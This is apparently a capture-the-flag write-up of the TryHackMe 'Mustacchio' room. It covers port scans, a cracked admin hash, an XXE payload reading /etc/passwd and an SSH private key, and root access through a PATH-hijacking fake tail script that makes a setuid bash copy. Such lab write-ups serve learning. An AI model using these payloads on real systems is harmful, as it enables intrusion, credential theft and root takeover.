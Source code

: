 ```yaml
---
title: "Mustacchio"
date: 2025-3-7
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```



## Enumeration
```
nmap -sVC 10.10.23.211        
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-07 16:05 +0545
Nmap scan report for 10.10.23.211 (10.10.23.211)
Host is up (0.21s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.74 seconds

```

```
rustscan -a 10.10.23.211        
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I scanned my computer so many times, it thinks we're dating.

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.23.211:22
Open 10.10.23.211:80
Open 10.10.23.211:8765
[~] Starting Script(s)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-07 16:09 +0545
Initiating Ping Scan at 16:09
Scanning 10.10.23.211 [4 ports]
Completed Ping Scan at 16:09, 3.04s elapsed (1 total hosts)
Nmap scan report for 10.10.23.211 [host down, received no-response]
Read data files from: /usr/share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.22 seconds
           Raw packets sent: 8 (304B) | Rcvd: 0 (0B)
```


Lets see in port 80.
![](Pasted%20image%2020250307161310.png)

Hmm lets do directory busting.
![](Pasted%20image%2020250307161452.png)

Lets enumerate all.
And we can find this.
![](Pasted%20image%2020250307161809.png)

And we got something.
![](Pasted%20image%2020250307161952.png)

But we haven't face any login pages.
Hmmm.
`admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b`

There was something in port 8765.
Lets see.
And we got the login page.

![](Pasted%20image%2020250307162237.png)

Lets try to login.
But we could not.
Wait it might be hash.
![](Pasted%20image%2020250307162507.png)

Hmm so we got the password.
`bulldog19`.

We logged in.
![](Pasted%20image%2020250307162600.png)

## Exploit

Hmm so the page only have a comment doing feature.
We might do XXS,XXE,SSRF or similar.

Lets try what we can do.

Lets first of all capture the request in burp.
![](Pasted%20image%2020250307163125.png)

And it is using xml to send data to server.
We might exploit it.

Lets use xxe payloads to do so.
And more interesting thing.
![](Pasted%20image%2020250307164549.png)
![](Pasted%20image%2020250307164709.png)

Hmm.
![](Pasted%20image%2020250307164744.png)

So we could do so.
![](Pasted%20image%2020250307165757.png)

Now we can make or get a simple xxe paylaod to read file cntent.
```
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>

```

So what is happening here,
- first we are making DTD which will have the content of `/etc/passwd`.
- After that we are declaring that in `<com></com>`.
- So that xxe will contain the content of `/etc/passwd`.
- We also have to do url encode.

And we are successful.
![](Pasted%20image%2020250307170707.png)

Now we know that message and users.
![](Pasted%20image%2020250307170741.png)

## Foothold

Lets try to read a private key.
And we can successfully read `/home/barry/.ssh/id_rsa`.
![](Pasted%20image%2020250307170926.png)

Lets try to do ssh.
But first we have to crack the hash.
![](Pasted%20image%2020250307171022.png)
And it was very quick.
![](Pasted%20image%2020250307171059.png)

Lets do ssh as barry.
![](Pasted%20image%2020250307171531.png)

## Privelege Escalation

Now lets enumerate further.
Hmm interesting thing in joes home directory.
![](Pasted%20image%2020250307171644.png)

And doing strings revealed it is using a command tail to reaf `/var/log/nginx/access.log`.
![](Pasted%20image%2020250307171750.png)

Lets check that log file too.
But we don't have a permission.
![](Pasted%20image%2020250307171938.png)

What can we do?
We can execute it and we can see but nothing there too.
![](Pasted%20image%2020250307172048.png)


Now the question is can we change the $PATH variable.
Lets see.
`export PATH=/tmp:$PATH`
`echo $PATH`
![](Pasted%20image%2020250307172522.png)

And its possible.
Now lets create our own tail command.
```
#!/bin/bash
cp /bin/bash /tmp/root && chmod 4777 /tmp/root
echo "Done."

```

Hmm and we will give a executable permission.
Now if that binary tried to run tail command,our small script will run.
![](Pasted%20image%2020250307172830.png)
![](Pasted%20image%2020250307172849.png)

and we got it.
![](Pasted%20image%2020250307172919.png)

## Done

And done.
![](Pasted%20image%2020250307172957.png)

Now we can put our ssh public key in `/root/.ssh/authorized_keys` and get stable root shell.

And lots of thing learned again.
I hope you enjoyed doing this and learned new thing.
